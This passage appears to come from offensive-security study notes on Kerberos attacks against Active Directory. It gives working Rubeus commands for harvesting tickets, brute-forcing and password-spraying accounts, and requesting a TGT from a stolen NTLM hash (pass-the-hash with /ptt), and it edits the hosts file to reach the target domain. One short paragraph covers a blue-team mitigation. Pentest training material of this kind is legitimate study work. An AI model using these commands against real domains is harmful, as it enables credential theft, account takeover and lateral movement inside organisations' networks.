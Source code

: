 
or smbexec or wmiexec or crackmapexec

 
- Pass the Ticket Mitigation 

Let's talk blue team and how to mitigate these types of attacks. 


    Don't let your domain admins log onto anything except the domain controller - This is something so simple however a lot of domain admins still log onto low-level computers leaving tickets around that we can use to attack and move laterally with



## Harvesting(gathering)  tickets (Used in passtheticket attacks)

we can use a tool called rubeus.exe for this  purpose

This command tries to gather the ticket being generated every 30 seconds

> Rubeus.exe harvest /interval:30   (we can also specify specific user to target by adding /username:password in this command,also domain or domaincontroller)


## bruteforcing tickets 

 We can also use this tool to bruteforce users and then we can issue a TGT this way and connect to a secure service
 
 For this we will need to add the domain in targets host file 
 
 > echo targetsIP domain.name >> C:\Windows\System32\drivers\etc\hosts

Now we will perform the password spraying

> Rubeus.exe brute /password:Password1 /noticket

here Password1 is the provided password

This will give us a .kirbi ticket


## Requesting TGT using hash(pass the hash)

- using Rebeus

1. We run the command to ask KDC to grant us a tgt just like a normal user would. THe only change is this that we are using users hash and impersanating as that user

> .\Rubeus.exe asktgt /domain:domain.name /user:username /rc4:USERHASH /ptt 

This command outputs the ticket for that user and then using the powershell input streamer which we used in pass the tickets attack we can write to a file and then use rubeus to inject the ticket into memory

- Using Impacket (REmote attack)

We must have credentials and a way to login machine remotley

